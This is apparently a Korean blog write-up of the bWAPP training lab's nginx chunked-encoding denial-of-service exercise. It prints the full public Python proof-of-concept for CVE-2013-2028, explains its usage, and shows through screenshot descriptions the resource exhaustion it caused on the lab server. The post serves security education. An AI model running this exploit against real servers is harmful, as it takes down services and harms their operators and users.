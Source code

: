 ```yaml
---
layout: single
title: (bWAPP)Denial-of-Service (Large Chunk Size)
categories: bwapp
tag: [xst,cross-site tracing, xss, bwapp, bee box, session, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 취약점 설명
> DoS는 서비스 거부 공격으로, 대상 시스템에 대한 가용성을 무너뜨리는 공격이다. 대표적으로 대역폭 공격, 리소스 고갈, 프로토콜 공격, 공격자 자원 고갈등이 존재한다.

![그림 1-1](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image.png)
- 8080/8443 포트로 Nginx 웹 서버가 동작중이며, 해당 웹 서버는 chunked Transfer-Encoding을 통한 DoS 공격에 취약하다고 한다.

```
HTTP Chunked는 request body의 크기를 가변적으로 정할 수 있는 기능이다.
```

해당 bWAPP에서는 타겟 서버의 DoS 공격을 수행하는 악성 스크립트를 제공하고 있다.

```python
# Exploit Title: nginx v1.3.9-1.4.0 DOS POC (CVE-2013-2028)
# Date: 16.05.2013
# Exploit Author: Mert SARICA - mert [ . ] sarica [ @ ] gmail [ . ] com - http://www.mertsarica.com
# Minor customizations by Malik Mesellem (@MME_IT)
# Vendor Homepage: http://nginx.org/
# Software Link: http://nginx.org/download/nginx-1.4.0.tar.gz
# Version: 1.3.9-1.4.0
# Tested on: Kali Linux & Windows XP (nginx v1.4.0)
# CVE : CVE-2013-2028

import httplib
import time
import socket
import sys
import os

# Vars & Defs
debug = 0
dos_packet = 0xFFFFFFFFFFFFFFEC
socket.setdefaulttimeout(1)

packet = 0

def chunk(data, chunk_size):
    chunked = ""
    chunked += "%s\r\n" % (chunk_size)
    chunked += "%s\r\n" % (data)
    chunked += "0\r\n\r\n"
    return chunked

if sys.platform == 'linux-i386' or sys.platform == 'linux2':
        os.system("clear")
elif sys.platform == 'win32':
        os.system("cls")
else:
        os.system("cls")
                
print "======================================================================"
print u"nginx v1.3.9-1.4.0 DOS POC (CVE-2013-2028) [http://www.mertsarica.com]"
print "======================================================================"

if len(sys.argv) < 2:
        print "Usage: python nginx_dos.py [target ip:port]\n"
        print "Example: python nginx_dos.py 127.0.0.1:8080\n"
        sys.exit(1)
else:
    host = sys.argv[1].lower()
        
while packet <= 66:

    body = "beezzzzzzzzzz"
    chunk_size = hex(dos_packet + 1)[3:]
    chunk_size = ("F" + chunk_size[:len(chunk_size)-1]).upper()

    if debug:
        print "data length:", len(body), "chunk size:", chunk_size[:len(chunk_size)]

    try:
        con = httplib.HTTPConnection(host)
        url = "/bWAPP/portal.php"
        con.putrequest('POST', url)
        con.putheader('User-Agent', 'bWAPP')
        con.putheader('Accept', '*/*')
        con.putheader('Transfer-Encoding', 'chunked')
        con.putheader('Content-Type', 'application/x-www-form-urlencoded')
        con.endheaders()
        con.send(chunk(body, chunk_size[:len(chunk_size)]))
    except:
        print "Connection error!"
        sys.exit(1)
        
    try:
        resp = con.getresponse()
        print(resp.status, resp.reason)
    except:
        print "[*] Knock knock, is anybody there ? (" + str(packet) + "/66)"

    packet = packet + 1
    
    con.close()

print "[+] Done!"
```

해당 PoC 코드는 CVE-2013-2028로 명명된 취약점에서 사용되는 공격 코드이다.

![그림 1-2](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image-1.png)
해당 소스크드를 공격자 Kali에서 파이썬 스크립트로 만들어 실행시키면, 위와 같은
문구가 출력된다.
<br>
사용법은 스크립트 사용시 파라미터로 ip와 port를 넘겨주게 되는데, bWAPP에서는
8080 및 8443포트를 사용하라고 나와있다.

![그림 1-3](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image-2.png)
- 현재 bWAPP 서버의 CPU 및 MEMORY상태를 보면 아무 이상이 없다.

![그림 1-4](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image-3.png)
- 필요한 인자를 주고 실행시키면 66번의 패킷을 지속적으로 전송하는 듯 하다.

![그림 1-5](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image-4.png)
- bWAPP 서버의 CPU 및 MEMORY 또한 비정상적으로 사용되는것을 확인할 수 있다.
- 이를 통해 DoS 공격으로 인한 서버의 가용성을 침해한다.

![그림 1-6](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image-5.png)
- 와이어샤크로 패킷을 보게되면 HTTP chunked response로 나와있는 걸 볼 수 있다.
- 이러한 공격은 공격자가 대량의 http 요청을 보낼 때, 서버는 요청을 처리하지 않고 리소스를 낭비하게 되므로, 가용성 감소를 통한 서비스 불능 상태로 만든다.